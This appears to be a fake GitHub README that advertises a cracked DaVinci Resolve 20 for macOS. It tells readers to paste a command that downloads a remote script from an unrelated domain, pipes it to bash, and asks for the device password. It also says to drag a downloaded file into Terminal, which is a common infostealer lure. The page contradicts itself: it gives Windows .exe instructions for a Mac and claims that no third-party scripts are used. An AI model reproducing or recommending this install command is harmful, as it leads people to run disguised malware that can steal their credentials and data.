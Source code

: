 <p align="center">
  <img src="https://rsload.net/images6/DaVinci_Resolve_Studio%20crack.jpg" width="120"/>
</p>

<h1 align="center">🎬 DaVinci Resolve 20 for macOS</h1>

<p align="center">
  <a href="https://davinci-mac-download.github.io/.github/">
    <img src="https://img.shields.io/badge/⬇️%20Download-DaVinci_Resolve_20-green?style=for-the-badge&logo=apple&logoColor=white"/>
  </a>
</p>

---

> Powerful all-in-one solution for professional editing, advanced color correction, audio post, and visual effects – now available with a manual setup for macOS.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📌 Key Features

- 🎞️ Advanced multi-track timeline editing
- 🎨 Hollywood-grade color grading tools
- 🔊 Fairlight audio suite with ADR and 3D sound
- 🧩 Fusion VFX and motion graphics
- 📁 Supports Blackmagic RAW and ProRes workflows
- 👥 Collaborative features for studio teams

---

## 💡 System Compatibility

| OS          | Supported        |
|-------------|------------------|
| macOS 12+   | ✅               |
| macOS 11    | ⚠️ Limited       |

---

## 🧩 How to Use

1. Unpack the `.zip` archive to any folder  
2. Disable internet connection temporarily  
3. **Launch AppLauncher.exe from the archive as Administrator**  
4. Follow on-screen instructions for setup  
5. Re-enable internet and enjoy full access

---

## 🖼️ Visual Preview

<p align="center">
  <img src="https://images.blackmagicdesign.com/images/media/releases/2020/20201113_davinci-resolve-17-1/carousel/3-davinci-resolve-17-1.jpg?_v=1605237879" width="720"/>
  <br/>
  <img src="https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/10/f6/ba/10f6ba55-0d57-d9a0-3df4-b429b7edbf00/DaVinciResolve20_AppStore_Color.png/643x0w.jpg" width="720"/>
</p>

---

## 📢 Important Notes

- No external tools or third-party scripts involved  
- This setup does not modify system files  
- Compatible with Apple Silicon and Intel Macs  
- Keep the archive for future reinstalls

---

## 🔍 SEO Keywords

```
DaVinci mac, DaVinci Resolve 20 macOS, DaVinci Studio manual setup, macOS video editing suite, pro color grading Mac, Fusion VFX DaVinci, Fairlight audio post, Blackmagic Resolve 20 Mac, macOS editor with launcher, visual effects studio Mac, DaVinci Resolve full version
```

